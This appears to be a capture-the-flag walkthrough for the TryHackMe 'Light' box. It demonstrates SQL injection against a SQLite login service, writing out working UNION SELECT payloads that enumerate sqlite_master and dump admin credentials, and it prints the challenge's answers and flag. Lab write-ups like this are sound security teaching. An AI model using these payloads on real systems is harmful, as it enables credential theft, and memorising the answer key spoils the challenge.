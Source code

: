 # TryHackMe Light: Full Walkthrough & SQL Injection Exploit

Recently, I tackled the **"Light"** challenge on TryHackMe, which was a fun and beginner-friendly box focused on **SQL injection in SQLite**. Here's a full breakdown of how I approached and solved it, along with insights into some interesting SQLi behavior.

## Challenge Setup

When connecting to the machine on port **1337** using `nc`, we're greeted with a login prompt:

**nc 10.10.39.206 1337**
You'll see:

**Welcome to the Light database!
Please enter your username:**
Testing for SQL Injection
I started with classic test inputs:

**Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL**

**Please enter your username: admin
Username not found.**

**Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"**
That error suggests SQL queries are constructed in a vulnerable way. This confirmed SQL Injection is possible.

Understanding the Query Structure
I noticed that a malformed username like:

**smokey' '**
gave:

**Error: near "''": syntax error**
This suggests the query might be something like:

sql
**SELECT password FROM users WHERE username = '<input>' LIMIT 30;**
I also saw that using SQL comments like --, /*, or encoded characters like %0b were blocked:

**Please enter your username: smokey' --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)**
Bypassing Filters and Identifying the Database Type
At first, I assumed the backend was using MySQL, so I tested common MySQL-specific payloads like:

**' UNION SELECT @@version**
But got:

**Error: unrecognized token: "@"**
This ruled out MySQL. I also tried payloads for PostgreSQL and other DBMS, but nothing worked.

Eventually, I tried:

**Please enter your username: ' Union Select sqlite_version()'
Password: 3.31.1**
🎯 This confirmed two critical things:

The backend is using SQLite - sqlite_version() is a built-in SQLite function

SQL injection is fully working even without comments

Extracting Tables and Data
To enumerate the tables:

**Please enter your username: ' Union Select name FROM sqlite_master'
Password: admintable**
We found a table named admintable. Let's dump its contents:

**Please enter your username: ' Union Select username || '~' || password from admintable'
Password: TryHackMeAdmin~mamZtAuMlrsEy5bp6q17**
Finally, we pulled the flag:

**Please enter your username: ' Union Select password from admintable'
Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}**
Answers
What is the admin username?

✅ TryHackMeAdmin

What is the password to the username mentioned in question 1?

✅ mamZtAuMlrsEy5bp6q17

What is the flag?

✅ THM{SQLit3_InJ3cTion_is_SimplE_nO?}
